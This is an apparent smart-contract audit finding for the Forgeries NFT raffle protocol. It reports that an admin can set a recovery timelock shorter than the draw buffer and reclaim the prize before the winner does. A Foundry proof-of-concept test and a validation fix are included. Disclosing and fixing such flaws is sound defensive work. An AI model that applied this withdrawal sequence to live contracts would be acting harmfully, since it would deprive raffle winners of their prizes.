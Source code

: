 ## [Forgeries Overview](https://audits.sherlock.xyz/contests/51)

| Protocol  | Website     | Twitter     | Contest Pot | Length | Time spent |
|-----------|-------------|-------------|-------------|--------|------------|
| Forgeries | [None]() | [None]() | 36,500 USDC | 3 days | < 4 Hours |  

### About Forgeries

A protocol for on-chain games with NFT prizes on Ethereum. We want to raffle away a single NFT (token) based off of another NFT collection (or drawingToken) in a fair and trustless manner.

### Findings Summary

| Risk   | Title                                                                             |
|--------|-----------------------------------------------------------------------------------|
| [H-01] | Admin can withdraw the NFT before the winner timelock ends                        |

## [H-01] Admin can withdraw the NFT before the winner timelock ends

## Impact
The admin could set `recoverTimelock` before `drawBufferTime`, thus he can withdraw the NFT before the winner Draw buffer time ends.

## Proof of Concept

The `drawBufferTime` need to be more then an hour and less then a month and the `recoverTimelock` need to be at least a week, therefore if the admin sets `recoverTimelock` before `drawBufferTime`:

***In the case of a malicious admin:***

- The admin may have the chance to withdraw the NFT before the winner Draw buffer time ends (If the winner didn't claim it in the first week).

***In the case of an honest admin:***

- It will force him to clone a new implementation, which would be a waste of GAS.

In past audits, we have seen contract admins claim that invalidated configuration setters are fine since “admins are trustworthy”. However, cases such as [Nomad](https://twitter.com/samczsun/status/1554260106107179010) got drained for over $150M and Misconfiguration in the [Acala stablecoin](https://web3isgoinggreat.com/single/misconfiguration-in-the-acala-stablecoin-project-allows-attacker-to-steal-1-2-billion-ausd) project allows attacker to steal 1.2 billion aUSD have shown again and again that even trustable entities can make mistakes. Thus any fields that might potentially result in insolvency of protocol should be thoroughly checked.

***This is simple test that shows how the admin could withdraw the NFT before the winner:***

```solidity
function test_WithdrawBeforeUser() public {
        address winner = address(0x1337);
        vm.label(winner, "winner");
        address attacker = address(0x1577);
        vm.label(attacker, "attacker");

        vm.startPrank(winner);
        for (uint256 tokensCount = 0; tokensCount < 10; tokensCount++) {
            drawingNFT.mint();
        }
        vm.stopPrank();

        vm.startPrank(admin);
        targetNFT.mint();

        address consumerAddress = factory.makeNewDraw(
            IVRFNFTRandomDraw.Settings({
                token: address(targetNFT),
                tokenId: 0,
                drawingToken: address(drawingNFT),
                drawingTokenStartId: 0,
                drawingTokenEndId: 10,
                drawBufferTime: 2 weeks,
                recoverTimelock: 1 weeks + 1 seconds,
                keyHash: bytes32(
                    0x79d3d8832d904592c0bf9818b621522c988bb8b0c05cdc3b15aea1b6e8db0c15
                ),
                subscriptionId: subscriptionId
            })
        );
        vm.label(consumerAddress, "drawing instance");

        mockCoordinator.addConsumer(subscriptionId, consumerAddress);
        mockCoordinator.fundSubscription(subscriptionId, 100 ether);

        VRFNFTRandomDraw drawing = VRFNFTRandomDraw(consumerAddress);

        targetNFT.setApprovalForAll(consumerAddress, true);

        uint256 drawingId = drawing.startDraw();

        mockCoordinator.fulfillRandomWords(drawingId, consumerAddress);

        vm.stopPrank();

        assertEq(targetNFT.balanceOf(admin), 0);
        assertEq(targetNFT.balanceOf(winner), 0);
        assertEq(targetNFT.balanceOf(consumerAddress), 1);

        vm.warp(1 weeks + 1 seconds);

        vm.prank(admin);
        drawing.lastResortTimelockOwnerClaimNFT();

        assertEq(targetNFT.balanceOf(admin), 1);
        assertEq(targetNFT.balanceOf(consumerAddress), 0);
        assertEq(targetNFT.balanceOf(winner), 0);

        vm.prank(winner);
        vm.expectRevert("ERC721: transfer from incorrect owner");
        drawing.winnerClaimNFT();

        assertEq(targetNFT.balanceOf(admin), 1);
        assertEq(targetNFT.balanceOf(winner), 0);
        assertEq(targetNFT.balanceOf(consumerAddress), 0);
    }
```

## Tools Used

Manual Review

## Recommended Mitigation Steps

***Add this check in the [`initialize()`]() function te prevent `recoverTimelock` from being set before `drawBufferTime`:***

```solidity
if (_settings.recoverTimelock < _settings.drawBufferTime) {
    revert RECOVER_TIMELOCK_NEEDS_TO_BE_MORE_THEN_REDRAW_TIMELOCK();
}
```
